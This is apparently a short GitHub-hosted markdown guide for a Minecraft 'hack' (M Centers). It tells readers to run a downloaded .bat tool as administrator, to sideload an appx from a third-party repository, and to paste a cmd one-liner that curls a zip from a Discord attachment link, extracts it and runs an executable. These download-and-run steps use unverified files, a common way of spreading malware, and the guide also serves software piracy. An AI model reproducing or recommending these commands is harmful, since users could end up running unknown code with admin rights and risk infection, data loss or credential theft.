 # Hey Y'all! 
###### Requested by [@miqumi](https://github.com/miqumi)

I see yall having problems with mc, here's a guide  

**1. Backup MC**  
	Its EZ! Just click the below 📄 icon to grab the latest version of the BackupMC tool by @miqumi!  
 	[![download](../assets/document_backupmc.png)](https://cdn.discordapp.com/attachments/1010814391555457155/1135472253757309008/mcbackup.bat)  
 	Now run the downloaded BackupMC tool as admin!  
 	Press B for Backup and R for restore!  
  
**2. Update MC**  
	Pretty Straightforward!  
	Just go to [this link](https://github.com/bernarddesfosse/onix_compatible_appx/releases/latest) and download the latest MC appx, and update using it.  
	(SKIP IF YOU ALREADY ARE ON THE LATEST VERSION)  
  
**3. Run the hackfile!**  
	Yup! Its the easiest part!   
	Just run the command in cmd  
	```cd %USERPROFILE%\Desktop && curl -O https://cdn.discordapp.com/attachments/1010814391555457155/1135487859235758080/ignore.zip && powershell Expand-Archive -Path ignore.zip -DestinationPath %USERPROFILE%\Desktop\MCHACK && del ignore.zip && cd MCHACK && "M Centers 4.0.exe" && echo done && exit```


# AND ITS HERE!!!